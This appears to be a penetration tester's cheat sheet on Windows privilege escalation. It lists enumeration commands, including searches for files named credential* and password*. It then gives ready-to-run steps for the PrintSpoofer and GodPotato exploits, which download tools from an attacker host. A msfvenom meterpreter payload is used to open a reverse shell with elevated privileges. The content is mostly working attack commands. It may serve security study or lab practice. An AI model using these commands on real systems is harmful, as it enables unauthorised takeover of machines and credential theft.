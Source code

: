 # 04 - Privilege Escalation

Index
- [System Enumeration](#System-Enumeration)
- [SeImpersonatePrivilege](#SeImpersonatePrivilege)
    - [Exploit by PrintSpoofer64.exe](#Exploit-by-PrintSpoofer64.exe)
    - [Exploit by GodPotato.exe](#Exploit-by-GodPotato.exe)

## System Enumeration
Base commands and tools for Windows:
``` bash
whoami                                  ## domain\username
whoami /groups                          ## my groups
whoami /priv                            ## user's local privileges
Get-LocalUser                           ## local users list
Get-LocalGroup                          ## local groups list
Get-LocalGroupMember $GROUP_NAME        ## members list
net user $USERNAME                      ## user information

systeminfo                              ## OS version, domain config, ...
ipconfig /all                           ## network configuration
route print                             ## local routing table
netstat -nao                            ## acctive connections and listening ports
Get-ChildItem Env:                      ## environment vars -- tips: informations hidden
Get-Process                             ## process list

Get-History                             ## history
(Get-PSReadlineOption).HistorySavePath  ## read the content to access the history

Get-ChildItem -Path c:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include *.pdf -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include credential* -File -Recurse -ErrorAction SilentlyContinue                       ## search for interesting file
Get-ChildItem -Path c:\ -Include password* -File -Recurse -ErrorAction SilentlyContinue                         ## search for interesting file

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname ## installed software
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname             ## installed software
```

Tools:
 - winPEAS.exe
 - Seatbelt.exe

## SeImpersonatePrivilege
Verify user's privileges:
``` text
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled     ## possibly vulnerable
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Exploit by PrintSpoofer64.exe
If **SeImpersonatePrivilege** enabled, PrintSpoofer64.exe can exploit the local system and elevate the privileges.
``` powershell
iwr http://192.168.1.1:8888/PrintSpoofer64.exe -outfile PrintSpoofer64.exe      ## download on target system
.\PrintSpoofer64.exe -i -c powershell.exe                                       ## exploit
```

### Exploit by GodPotato.exe
If **SeImpersonatePrivilege** enabled, PrintSpoofer64.exe can exploit the local system and run command with elevate privilege.

1. Generate a payload and a listester:
``` bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=$KALI LPORT=443 -f exe -o payload.exe   ## generate payload
msfconsole                                                                                      ## open msfconsole
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https                 ## set payload
msf6 exploit(multi/handler) > set LHOST $KALI
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run
...
```
2. Exploit the system:
``` powershell
iwr http://192.168.1.1:8888/payload.exe -outfile payload.exe                                    ## download payload on target system
iwr http://192.168.1.1:8888/GodPotato.exe -outfile GodPotato.exe                                ## download exploit on target system
./GodPotato.exe -cmd "powershell /c ./payload.exe"                                              ## exploit: open a reverse shell
```
